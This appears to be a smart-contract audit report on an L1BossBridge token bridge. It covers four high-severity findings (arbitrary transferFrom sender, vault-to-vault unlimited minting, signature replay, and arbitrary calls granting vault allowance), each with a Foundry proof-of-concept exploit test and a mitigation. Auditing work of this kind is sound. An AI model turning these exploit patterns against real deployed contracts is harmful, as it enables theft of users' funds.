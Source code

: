 ### [H-1] Arbitrary `from` passed to `transferFrom` (or `safeTransferFrom`)

**Description**

In `L1BossBridge::depositTokensToL2` function, a transaction passing an arbitrary `from` address to `transferFrom` (or `safeTransferFrom`) can lead to a loss of funds, because anyone can transfer tokens from the `from` address if an approval is made.

**Impact**

If an approval is made, the protocol can lose of funds.

**Proof of Concepts**

Scenario : 
 - A user creates an approval for the bridge.
 - An attacker check the amount of user, then takes it as a parameter for the deposit
 - The attacker deposits to bridge by passing amount of the user as a parameter
 - The balance of the user will be lost due to this attack 

```javascript
    function testCanMoveApprovedTokensOfOtherUsers() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assert(token.balanceOf(user) == 0);
        assert(token.balanceOf(address(vault)) == depositAmount);
        vm.stopPrank();
    }
```

**Recommended mitigation**

When passing parameters in the deposit, use `msg.sender` instead of the address `from` to avoid stealing.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Lack of transfer vault to vault makes unlimited minting on L2 

**Description**

Also in `L1BossBridge::depositTokensToL2` function, a transaction passing an arbitrary `from` address to `transferFrom` can occur. If we use address `vault` as parameter the `from`, we will see transaction from `vault` to `vault`. Although this transaction doesn't affect the balance, it causes unlimited minting on L2.

**Impact**

Unlimited minting in L2.

**Proof of Concepts**

Scenario :
 - Let a vault have a balance
 - An attacker deposits to the birdge with the paramater `from` being the address of `vault`
 - Repeat the process continuously
 
```javascript
    function testCanTransferVaultToVault() public {
        address attacker = makeAddr("attacker");
        uint256 vaultBalance = 500 ether;

        deal(address(token), address(vault), vaultBalance);

        console2.log("vault balance before ", token.balanceOf(address(vault)));

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        vm.stopPrank();


        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        vm.stopPrank();
    }
```

**Recommended mitigation**

When passing parameters in the deposit, use `msg.sender` instead of the address `from` to avoid unlimited minting on L2.

### [H-3] Signature replay found

**Description**

Users who want to withdraw tokens from the bridge can call the sendToL1 function, or the wrapper withdrawTokensToL1 function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concepts**

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

**Recommended mitigation**

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description**

The L1BossBridge contract includes the sendToL1 function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the L1Vault contract.

The L1BossBridge contract owns the L1Vault contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concepts**

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
        uint256 initialBalanceVault = 1000 ether;
        deal(address(token), address(vault), initialBalanceVault);

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(msg.sender, address(0), 0);
        tokenBridge.depositTokensToL2(msg.sender, address(0), 0);

        bytes memory message = abi.encode(
            address(vault), //target
            0, // value
            abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
        vm.stopPrank();
    }
```

**Recommended mitigation**

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.
